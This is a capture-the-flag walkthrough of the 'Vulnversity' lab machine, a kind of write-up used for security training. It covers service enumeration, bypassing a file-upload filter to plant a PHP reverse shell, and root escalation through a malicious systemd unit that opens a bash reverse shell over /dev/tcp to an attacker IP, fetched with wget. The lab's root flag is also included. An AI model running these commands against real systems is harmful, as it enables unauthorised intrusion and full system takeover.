






# Vulnversity

Machine IP: 10.10.209.146

DNS entry: test.thm


**Ports open**

| PORT                                                                                  | STATE | SERVICE     | VERSION                                                      |
| ------------------------------------------------------------------------------------- | ----- | ----------- | ------------------------------------------------------------ |
| 21/tcp                                                                                | open  | FTP         | vsftpd 3.0.3                                                 |
| 22/tcp                                                                                | open  | SSH         | OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0) |
| 139/tcp                                                                               | open  | netbios-ssn | Samba smbd 3.X - 4.X (workgroup: WORKGROUP)                  |
| 445/tcp                                                                               | open  | netbios-ssn | Samba smbd 3.X - 4.X (workgroup: WORKGROUP)                  |
| 3128/tcp                                                                              | open  | http-proxy  | Squid http proxy 3.5.12                                      |
| 3333/tcp                                                                              | open  | http        | Apache httpd 2.4.18 ((Ubuntu))                               |
| Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux\_kernel |       |             |                                                              |

**Directories enumerated**

| Directory      | Status        | Result                                                  |
| -------------- | ------------- | ------------------------------------------------------- |
| /css           | (Status: 301) | \[Size: 319] \[--> http://10.10.209.146:3333/css/]      |
| /js            | (Status: 301) | \[Size: 318] \[--> http://10.10.209.146:3333/js/]       |
| /images        | (Status: 301) | \[Size: 322] \[--> http://10.10.209.146:3333/images/]   |
| /fonts         | (Status: 301) | \[Size: 321] \[--> http://10.10.209.146:3333/fonts/]    |
| /internal      | (Status: 301) | \[Size: 324] \[--> http://10.10.209.146:3333/internal/] |
| /server-status | (Status: 403) | \[Size: 303]                                            |

From those directories found, the /internal looks to be interesting, its a form that allow to upload a file. I have tested ".php" file but is not possible.

**Trying to insert the .php reverse sheel payload steps:**

1.- I have created a .txt file with common formats.

2.- Executed burpsuite and use the intruder mode.

3.- Highlighted the extension in the request and start the intruder.

<div>

<figure><figcaption></figcaption></figure>

 

<figure><figcaption></figcaption></figure>

 

<figure><figcaption></figcaption></figure>

 

<figure><figcaption></figcaption></figure>

 

<figure><figcaption></figcaption></figure>

</div>

Now, I can conclude that ".phtml" format is allowed so lets try to inject the payload

I have port 4444 listening, and it was indicated in the reverse shell script.

Now, lets move to /internal/uploads/ and execute the file

<figure><figcaption></figcaption></figure>

**Privilege escalation**

/etc/passwd = Access allowed

/etc/shadow = Access denied

Performed the following command to locate all the folders owned by root

<figure><figcaption></figcaption></figure>

/systemctl is a typical folder to run services as a root, lets try to create a service root.service inside that folder, that service will run a reverse shell in bash.

**file content:**

\[UNIT] Description=root

\[Service] Type=simple User=root ExecStart=/bin/bash 'bash -i >& /dev/tcp/10.14.70.188/5555 0>&1'

\[Install] WantedBy=multi-user.target


**In vulnerable machine side:**

Move to /tmp and to a wget to receive the file

Example:


wget http://10.14.70.188/root.service --2024-02-10 10:13:31-- http://10.14.70.188/root.service Connecting to 10.14.70.188:80... connected. HTTP request sent, awaiting response... 200 OK Length: 160 \[application/octet-stream] Saving to: 'root.service'

```
 0K                                                       100% 32.8M=0s
```

now lets try to execute the following commands:

systemctl enable /tmp/root.service

systemctl enable root


Now the listener in port 5555 should be having a root terminal open

└─$ nc -nvlp 5555\
listening on \[any] 5555 ...

connect to \[10.14.70.188] from (UNKNOWN) \[10.10.96.47] 36558 bash: cannot set terminal process group (1928): Inappropriate ioctl for device bash: no job control in this shell root@vulnuniversity:/# root@vulnuniversity:/# root@vulnuniversity:/# root@vulnuniversity:/# root@vulnuniversity:/#


Finally the flag:\
\
root@vulnuniversity:~~#~~ cat root.txt cat root.txt a58ff8579f0a9270368d33a9966c7fd5 root@vulnuniversity:#
